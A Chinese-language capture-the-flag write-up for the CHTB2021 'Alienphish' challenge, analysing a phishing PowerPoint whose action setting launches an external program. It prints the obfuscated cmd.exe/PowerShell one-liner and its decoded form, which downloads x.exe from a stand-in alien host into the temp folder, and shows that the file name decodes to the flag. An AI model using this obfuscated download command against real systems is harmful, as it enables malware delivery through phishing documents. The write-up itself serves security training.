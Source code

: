 CHTB2021-Alienphish
===
## Info
**題目敘述**

The PowerPoint presentation was sent to the top leadership of the human resistance effort. We believe it was an attempt by the aliens to phish into our networks. Find the malicious payload and the flag.

**能力**
- Office
- powershell

**難易度**
★★☆☆☆

###### tags: `CTF-WRITEUP`

## Write Up
### 檔案分析
這是一個powerpoint的檔案，打開畫面會看到題目題是要按`F5`，並且Enable某項功能

![](https://i.imgur.com/sWpPWUO.png)

實際按`F5`播放會出現以下畫面，可以知道動作設定裡包含外部程式

![](https://i.imgur.com/6AYgkrx.png)

到「動作設定」中，查看外部程式

![](https://i.imgur.com/8ggwIwD.png)

### powershell
```
cmd.exe /V:ON/C"set yM="o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q' + pmet:vne$ = o$" c- llehsrewop&&for /L %X in (122;-1;0)do set kCX=!kCX!!yM:~%X,1!&&if %X leq 0 call %kCX:*kCX!=%"
```
將`yM`做字串反轉，
- 下載`http:/destroyearth.alien/x.exe`
- 另存成`Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe`
    - 將檔名base64 decode即為flag
```
$o = $env:temp + 'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe'; iwr http:/destroyearth.alien/x.exe -outfile $o
```